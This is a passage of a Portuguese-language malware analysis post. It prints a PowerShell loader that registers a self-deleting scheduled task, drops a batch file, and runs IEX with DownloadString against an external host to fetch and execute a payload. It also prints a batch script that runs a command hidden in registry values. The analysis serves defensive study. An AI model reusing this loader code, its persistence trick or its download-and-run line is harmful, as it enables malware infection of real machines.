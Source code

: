 ```
 
    $taskName = [Loader]::RandomString($rInt)
 
    $service = New-Object -ComObject("Schedule.Service")
    $service.Connect()
 
    $rootFolder = $service.GetFolder("\")
 
    $TaskDefinition = $service.NewTask(0)
    $TaskDefinition.RegistrationInfo.Description = ""
    $TaskDefinition.Settings.Enabled = $true
    $TaskDefinition.Settings.DisallowStartIfOnBatteries = $false
    $TaskDefinition.Settings.DeleteExpiredTaskAfter = "PT0M"
 
    $triggers = $TaskDefinition.Triggers
    $trigger = $triggers.Create(1)
    $trigger.StartBoundary = $TaskStartTime.ToString("yyyy-MM-dd'T'HH:mm:ss")
    $trigger.EndBoundary = $TaskEndTime.ToString("yyyy-MM-dd'T'HH:mm:ss")
    $trigger.Enabled = $true
 
    $action = $TaskDefinition.Actions.Create(0)
    $action.Path = $cmdFileName
    $action.Arguments = ""
 
    $action = $TaskDefinition.Actions.Create(0)
    $action.Path = "schtasks.exe"
    $action.Arguments = "/Delete /TN $taskName /F"
 
    $rootFolder.RegisterTaskDefinition($taskName, $TaskDefinition, 6, "", $null, 0)
 
    $urlPL = "https://dlm.supote.com/?dmNnvgWAYKAB95tBe8pKTMCSgpReVTFZxJLrYnw9MXfsCILXa3FjyhosNA8yROSsOSOqjrjbIVOwT9TuamdZH69NzWvW2++EHJxP7gpNXcDdhQRgMl0C8FIoGq8="
    IEX(New-Object Net.WebClient).DownloadString("https://dlm.supote.com/?fmJhsAWLZqcFuIJdSOhrb8WFtI5DZQVA84vcRVNLTnjlK6L0bndQxwBUYz4oft6IGQeMqJvnNXLCEPnUC3g8MqFS/mLE+9OkOKRA8F45SJ+4gA4tNgYE")
}
```

Apesar de, novamente, não ter acesso ao script em atividade, o que limita parcialmente a análise, vemos que o script escreve ("*dropa*") um script batch em um arquivo de nome aleatório:

```
$cmdFileName = "$([Loader]::outDir)\$([Loader]::RandomString([Loader]::randomInt(6, 16))).cmd"
```

Script batch:

```
@Echo off
Setlocal EnableExtensions
Setlocal EnableDelayedExpansion
Set $var1=HKCU
Set $var1=%$var1%\Software
Set $var1=%$var1%\Microsoft
Set $var2=
FOR /F "usebackq tokens=1,2*" %%1 IN (`REG QUERY %$var1%`) DO (
    Set $var3=%%11
    IF "!$var3:~0,$($prefix.Length)!"=="$prefix" (
        Set $var2=!$var2!%%3
    )
)
%$var2%
```


[^1]: Caso tenha alguma correção ou informação adicional, pode me enviar em cpuodzius@fireshellsecurity.team que farei as devidas alterações no post.